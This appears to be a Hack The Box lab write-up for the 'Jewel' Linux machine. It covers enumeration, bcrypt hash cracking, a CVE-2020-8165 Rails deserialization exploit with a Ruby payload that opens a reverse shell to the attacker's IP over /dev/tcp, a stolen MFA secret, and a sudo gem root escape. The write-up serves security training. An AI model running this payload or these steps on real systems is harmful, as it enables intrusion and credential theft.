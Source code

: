 ```yaml
---
layout: post
title:  "Hack The Box - Jewel Writeup"
date:   2021-02-13 06:00:00
image: 
  path: /assets/img/htb/HTB-Jewel/Header.png
author: Ryan
---
```


- Table of Contents
{:toc .large-only}

*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  

Jewel is an Medium level linux machine. Based on the creator and community statistics, we'll likely have a decent amount of enumeration to get through, while working off of existing CVEs against a somewhat realistic environment.  
![Statistics](/assets/img/htb/HTB-Jewel/Statistics.png)

## Information Gathering

#### Nmap
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -Pn -p22,8000,8080 -sC -sV -oA Extracts/Jewel 10.10.10.211`  
![Nmap](/assets/img/htb/HTB-Jewel/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 8000 - HTTP**: A basic websever hosting what appears to be an instance of [Gitweb](https://git-scm.com/book/en/v2/Git-on-the-Server-GitWeb). We should look for source code here.
* **Port 8080 - HTTP**: Another webserver, but this one is running a small blog off of an installation of [Phusion Passenger](https://www.phusionpassenger.com/).

We'll also want to add Jewel.htb to our hosts file.

### Blog
Navigating the Blog on port 8080, we're able to identify a couple of existing users: `Bill` and `Jennifer`. We're also able to create our own user, but do not appear to have the ability to post content of our own. We can, however, edit our account username.  
![Edit User](/assets/img/htb/HTB-Jewel/Info_Blog.png)

### Gitweb
Moving on to the Gitweb content hosted on port 8000, we appear to have open read-only access to the entire blog project repository. After searching through many of the files, we come across the password hashes belonging to both Bill and Jennifer. Based on the `$2a$` at the start of the hash, we know that they're protected using the bcrypt hashing algorthm. This is a very strong and time consuming hash to break, but we can let it run against the `rockyou.txt` list for a bit while we continue into other areas.

`>> ./hashcat.exe -a0 -m3200 hash.txt rockyou.txt --username`

### Gemfile
In reference to the title of this box, there's a very strong possibility that our foothold will be something to do with Ruby on Rails. The Gemfile can tell us a lot about the project, including any vulnerabilities within the packages being used. By using tools such as [Hakiri](https://hakiri.io/), we're able to identify a range of vulnerabilities.  
![Gemfile Vulns](/assets/img/htb/HTB-Jewel/Info_Gemfile.png)

## Foothold
Reading through our findings, we eventually come across some interesting information regarding [CVE-2020-8165](https://github.com/masahiro331/CVE-2020-8165). It looks like this may be our way in.

### Generating The Payload
Working through the steps provided in the above repo, we're able to put together a payload that should get us a shell onto the box.  
```
code = '`bash -c "bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"`'
erb = ERB.allocate
erb.instance_variable_set :@src, code
erb.instance_variable_set :@filename, "1"
erb.instance_variable_set :@lineno, 1
payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
puts "Payload"
require 'uri'
puts URI.encode_www_form(payload: payload)
```

### Reverse Shell
First thing we'll do is set up our listener on the port we provided in the payload generation.  
`>> nc -lvnp 4444`

Going back to our blog post account, there was one area we were able to submit data: Edit User Account. When we try to submit our payload through the UI, we end up with an error due to the input being too long. But by capturing our request through Burpsuite, we're able to manipulate the data after validation takes place.  
![Burp Proxy](/assets/img/htb/HTB-Jewel/Foothold_Burp.png)  

Refreshing the blog site results in triggering our code.  
![Reverse Shell](/assets/img/htb/HTB-Jewel/Foothold_Shell.png)

### User Flag
![User Flag](/assets/img/htb/HTB-Jewel/User_Flag.png)

## Privilege Escalation
With a direct connection into the box, the first thing we'll do is upgrade our shell:  
`>> python -c "import pty;pty.spawn('/bin/bash')"`  
`>> export TERM=xterm;`  

### Backups
Looking around the box, we come across a backup SQL script, again discovering bcrypt password hashes for the Bill and Jennifer users. While we were unsuccessful in cracking the hashes on our first go around, these hashes are different and may be weaker than before.  

Password Hashes:  
`jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO`  
`bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW`  

`>> ./hashcat.exe -a0 -m3200 hash.txt rockyou.txt --username`  

![Hash Cracking](/assets/img/htb/HTB-Jewel/PrivEsc_Hash.png)

Looks like Bill's password is spongebob. Let's see what he can run as sudo.  
![Sudo Fail](/assets/img/htb/HTB-Jewel/PrivEsc_Sudo1.png)  

### Google Authenticator
A bit different than what we normally encounter, Bill's account is protected by multi-factor authentication. We'll need to find out what he's using and how to get around it.

Back in the /home/bill directory, there's a hidden .google_authenticator configuration file we're able to extract a key from: `2UQI3R52WFCLE6JTLDCSJYMJH4`. Configuring the Google Authenticator plugin for Chrome, we're able to successfully generate a verification token.  

![Google Authenticator](/assets/img/htb/HTB-Jewel/PrivEsc_Authenticator.png)  

### Sudo Gem
Now that we've got Bill's credentials and MFA token, we're able to see that he has the ability to run Ruby's `gem` command as root.  

![Sudo Success](/assets/img/htb/HTB-Jewel/PrivEsc_Sudo2.png)  

Referencing the `gem` section of [GTFOBins](https://gtfobins.github.io/gtfobins/gem/), we're shown how to leverage our access and escalate to root.  
`>> sudo gem open -e "/bin/sh -c /bin/sh" rdoc`  
![Privilege Escalation](/assets/img/htb/HTB-Jewel/PrivEsc_Gem.png)  

### Root Flag
![Root Flag](/assets/img/htb/HTB-Jewel/Root_Flag.png)  